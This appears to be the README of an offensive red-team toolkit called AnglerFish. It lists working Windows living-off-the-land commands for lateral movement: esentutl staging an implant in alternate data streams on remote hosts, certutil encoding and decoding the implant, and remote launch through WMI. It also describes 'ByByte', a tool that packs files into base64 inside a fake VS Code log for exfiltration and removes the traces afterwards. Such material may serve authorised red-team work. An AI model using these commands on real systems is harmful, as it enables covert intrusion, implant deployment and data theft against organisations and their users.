 # AnglerFish

## Lateral Movement
LoL (living-off-the-land) techniques to perform lateral movement using `esentutl` and `certutil`.

> note: Lateral movement techniques assume a .exe implant but these techniques should be easily adaptable for the use-case

* `Esentutl` with [ADS](https://attack.mitre.org/techniques/T1564/004/):
```powershell
Esentutl.exe /y <C:\path\to\implant> /d \\<remote.host>\path\on\remote\sysmon.log:<implant.exe> 

ex: usage:
esentutl.exe /y C:\users\public\implant.exe /d \\dbserver.dev.local\C:\users\public\splunk.log:implant.exe
```

* `Certutil`:
  * Encode:
     ```powershell
    certutil -encode <C:\path\to\implant.exe> <C:\dest\path\of\com.crt> | out-null

    Ex. Usage:
    certutil -encode C:\users\public\implant.exe C:\users\public\com.crt | out-null
    ```
  * Decode run on remote host (`invoke-command`, `psexec`, etc): 
    ```powershell
    invoke-command <target.hostname> -scriptblock { certutil -decode \\<localhost>\c$\users\public\com.crt <destination.path>; wmic process call create <"C:\path\to\implant> } 


    Ex. Usage:
    certutil -encode C:\users\public\implant.exe C:\users\public\com.crt | out-null
    ```
### Launching remote processes
The following methods have been tested opening remote processes on hosts as an inactive user (i.e. not logged in on remote machine). Note that this is not an exhaustive list, but a couple of methods that have been tested.

* `invoke-wmimethod`
```powershell
invoke-wmimethod -computername <target.host.IP> -class win32_process -name Create -argumentlist "<path\to\implant\splunk.log:implant.exe>"

Ex. Usage:
invoke-wmimethod -computername dbserver.dev.local -class win32_process -name Create -argumentlist "C:\users\public\implant.exe"
```
* `wmic` with ADS (run on remote host using `invoke-command` or other methods)
```powershell
wmic process call create <"C:\path\to\splunk.log:implant.exe">

Ex. Usage:
invoke-command dbserver.dev.local -scriptblock { wmic process call create "C:\users\public\splunk.log:implant.exe" }
```

## Data Exfiltration

[ByByte](./bybybte.ps1) is a provided exfiltration tool that breaks files into base64 strings stored as a CSV `mat-blk.log` in `C:\users\$env:username\appdata\roaming\code\logs\`, and reassembles them from a single file while preserving data, filename, and extension.

The intention is to simplify exfiltration from a mass of files to a single CSV which contains all the pieces needed to rebuild the files outside of the attack environment.

* `-break` : takes a filepath and breaks file into a base64 string, and store as `mat-blk.log`. It will create the log file if it doesn't exist, and otherwise append data if it does.
```powershell
bybyte.ps1 -break C:\users\vflemming\recipeResearch.xlsx
```
* `-build` : Takes a filepath that goes to the file from -build and converts all line items in the list to their file formats. Files are built and then created in `$pwd\files\`
```powershell
bybyte.ps1 -build C:\users\operator\mat-blk.log
```
* `-clean` : Deletes the `mat-blk.log` file from its default location on the current host
```powershell
bybyte.ps1 -clean
```